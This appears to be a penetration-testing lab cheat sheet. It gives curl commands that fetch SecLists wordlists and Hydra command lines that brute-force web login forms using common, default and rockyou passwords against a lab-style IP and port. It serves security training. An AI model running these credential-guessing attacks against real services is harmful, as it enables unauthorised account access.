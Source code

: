 ```shell-session
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/2023-200_most_used_passwords.txt
```
```shell-session
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt
```
```shell-session
$ hydra [options] target http-post-form "path:params:condition_string"
```

```shell-session
hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
```

## Default Credentials
```shell-session
$ hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

## Password Wordlist
```shell-session
$ hydra -l admin -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -f 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```
